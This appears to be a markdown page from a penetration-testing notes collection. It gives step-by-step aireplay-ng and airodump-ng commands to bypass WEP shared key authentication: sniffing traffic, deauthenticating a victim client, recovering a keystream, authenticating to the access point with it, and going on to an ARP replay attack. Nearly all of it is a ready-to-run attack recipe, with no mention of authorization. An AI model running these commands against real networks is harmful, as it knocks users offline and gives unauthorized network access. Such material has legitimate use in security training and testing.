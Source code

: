 # Bypassing Shared Key Authentication (WEP on Secured Network)

Sniff the network traffic

```sh
sudo airodump-ng -c <channel> -w wep_file wlan0mon
# Do not close this window
```

- Step 1: [Deauthenticate](../Deauthentication%20Attack.md) one victim client

```sh
sudo aireplay-ng -0 0 -c <client_mac> -e <ssid> wlan0mon
# Do not close this window
```

- Step 2: Obtain keystream from captured authentications frames

Now watch your `airodump-ng` terminal window. On the top part, you should see a message which informs you a **keystream** was recovered.
The keystream will be save in a `.xor` file

- Step 3: Authenticate with the AP using recovered keystream

```sh
sudo aireplay-ng -1 6000 -q 10 -e <ssid> -y <file.xor> wlan0mon
# Do not close this window
```

- [Step 4: Initiate ARP replay attack](./ARP%20Replay%20Attack.md)